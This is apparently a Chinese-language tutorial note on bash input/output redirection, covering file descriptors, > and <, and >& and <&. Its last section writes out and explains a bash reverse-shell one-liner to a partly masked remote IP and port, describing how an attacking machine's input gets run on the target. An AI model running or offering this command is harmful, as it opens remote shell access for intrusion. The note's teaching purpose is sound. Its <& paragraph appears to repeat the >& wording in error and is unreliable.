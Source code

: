 ## 简介

标准输出代表的文件描述符为1，标准错误输出为2，标准输入为0。

标准输出的内容就是根据输入的命令计算机执行得到结果然后输出在当前tty的内容。本质上当前tty会显示输出的原理就是执行输入命令的输出结果会写到1这个文件中，然后回显到当前tty。

同样的标准输入内容就是输入到当前tty中的要被命令执行的对象。本质上在tty上输入的命令执行的对象就是先被写到0中，然后被计算机执行，然后才会产生输出，写到1中，然后回显到当前tty。

**需要注意的是，这些重定向命令只在当时那行命令有效，如果想在整个tty有效，需要在加exec关键字。**

在使用>时默认不写任何数字代表标准输出，例如>output.txt代表将标准输出重定向到output.txt文件中，等价于1>output.txt。

同样的在使用<时默认不写任何数字代表标准输入，例如<input.txt代表将标准输入重定向到input.txt文件中，等价于0<input.txt。

## >、<

#### 1、">"代表将左边输出重定向到右边

```bash
command 1>output.txt
//代表将标准输出重定向到output.txt，也就代表command执行后所有应该到标准输出文件中的内容会被重定向输出到output.txt文件里，打开output.txt就能看到原先应该在标准输出中显示内容。也就是说原先应该显示在当前tty的内容被重定向到了output.txt中。
```

不重定向执行ls的结果，回显在当前tty

![image-20240401225306398](Redirection.assets/image-20240401225306398.png)

重定向输出ls的执行结果，没有在当前tty任何回显

![image-20240401225333258](Redirection.assets/image-20240401225333258.png)

但是在output.txt文件中拿到了整个执行的输出

![image-20240401225342884](Redirection.assets/image-20240401225342884.png)

#### 2、"<"代表将左边输入重定向到右边

```bash
command 0<input.txt
//代表将标准输入重定向到input.txt，也就代表所有应该从标准输入文件中（即当前tty）读取的command要执行的对象会被输入重定向到input.txt文件里，也就是说input.txt中的所有内容将会作为命令执行的对象被tty的command读取从而执行。
```

在不重定向输入时，是在当前tty输入，然后得到结果

![image-20240401225647300](Redirection.assets/image-20240401225647300.png)

![image-20240401225742018](Redirection.assets/image-20240401225742018.png)

在重定向输入时，是执行了输入重定向后的input.txt中的内容。(需要执行文件中的内容时，需要用bash命令，不加bash直接输入重定向并不会执行，**因为输入重定向只不过重定向了命令执行的对象，而不是重定向了命令**)

![image-20240401225816488](Redirection.assets/image-20240401225816488.png)

<img src="Redirection.assets/image-20240401225826424.png" alt="image-20240401225826424" style="zoom:33%;" />

![image-20240401225838869](Redirection.assets/image-20240401225838869.png)

## >&、<&

1、

当n>&m时代表将文件描述符n**复制**到文件描述符m，如果文件描述符 m 没有对应以读模式打开的文件，则重定向报错，如果 m的值是连字符 -，则会关闭文件描述符n。如果没有提供文件描述符n，默认会使用文件描述符 1，也就是标准输出。

2、

当n>&m时代表将文件描述符n**复制**到文件描述符m，如果文件描述符 m 没有对应以写模式打开的文件，则重定向报错，如果 m的值是连字符 -，则会关闭文件描述符n。如果没有提供文件描述符n，默认会使用文件描述符 0，也就是标准输入。

## 一句话木马中的重定向

```bash
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
```

bash -i构建一个bash交互环境，然后将这个交互环境的标准输出重定向到了tcp连接上，因为构建了一个bash交互环境，这个bash执行命令的输出都会重定向到这个tcp连接上。**此时1其实就指向了这个tcp连接。**

/dev/tcp/47.xxx.xxx.72/2333代表打开一个tcp连接。

0>&1代表将0输出重定向到了1上，即标准输入重定向到了标准输出（1），即标准输入重定向到了tcp连接，因为bash环境的存在，tcp接受到的输入内容就可以直接被bash作为命令的对象执行，这样攻击机输入的内容就被靶机作为bash命令的对象直接执行了。

**由于在bash环境下，这个输入执行的结果又会被重定向到了tcp连接，从而攻击机输入的内容被靶机执行后又输出到了攻击机上。**

#### Ps:这里的重点时如何理解这个bash交互环境，其实>& /dev/tcp/47.xxx.xxx.72/2333 0>&1这个命令就是在建立的bash的交互环境中永久性的被执行了，输入在这个bash中永久性的重定向，输出也在这个bash中永久性的重定向了。
